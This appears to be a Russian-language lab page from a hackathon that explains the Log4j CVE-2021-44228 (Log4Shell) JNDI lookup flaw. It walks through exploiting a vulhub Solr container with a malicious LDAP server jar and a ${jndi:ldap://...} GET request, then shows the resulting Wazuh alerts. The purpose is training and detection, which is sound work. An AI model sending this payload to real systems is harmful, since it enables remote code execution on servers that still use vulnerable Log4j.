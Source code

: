 # CVE-2021-44228

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
* [https://securelist.ru/cve-2021-44228-vulnerability-in-apache-log4j-library/104144/](https://securelist.ru/cve-2021-44228-vulnerability-in-apache-log4j-library/104144/)

Уязвимость удаленного выполнения кода CVE-2021-44228 была обнаружена в библиотеке Apache Log4j части Apache Logging Project. Если какой-либо продукт для записи файлов журналов использует уязвимую версию данной библиотеки с поставляемым JNDI-модулем, то есть большая вероятность эксплуатации CVE-2021-44228 в этом продукте. Уязвимы почти все версии Log4j, начиная с 2.0-beta9 и заканчивая 2.14.1.\
Библиотека Log4j имеет механизм Lookup, который используется для выполнения запросов путем обработки специального синтаксиса в форматной строке. Например, с помощью него можно запрашивать различные параметры, такие как версия окружения Java через _${java:version}_ и т. д. При этом если указать в строке в качестве ключа _jndi_, то механизм Lookup будет осуществляться через JNDI API. По умолчанию все запросы осуществляются с префиксом _java:comp/env/_, однако авторы предусмотрели возможность указания собственного префикса — для этого в ключе надо поставить символ двоеточия. Здесь и кроется уязвимость: если указать в качестве ключа, например, _jndi:ldap://_, то запрос будет осуществляться на указанный LDAP-сервер. Также возможно использование и других протоколов для взаимодействия, например LDAPS, DNS, RMI.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/log4j/CVE-2021-44228

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8983 будет доступен портал администратора Apache Solr

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости сперва нужно поднять зловредный LDAP-сервер. Сделать это можно с помощью [этого](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) .jar файла

Для этого выполните команду&#x20;

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

Где в качестве параметра -C в кавычках укажите команду, которая должна выполниться, а в качестве параметра -A в кавычках укажите ip машины, на котором будет поднят LDAP-сервер

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Затем отправьте соответствующий GET-запрос на уязвимую машину

```
GET /solr/admin/cores?action=${jndi:ldap://адрес_LDAP-сервера} HTTP/1.1
Host: ваш-ip:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимой машине будет создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты об эксплуатации CVE-2021-44228

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
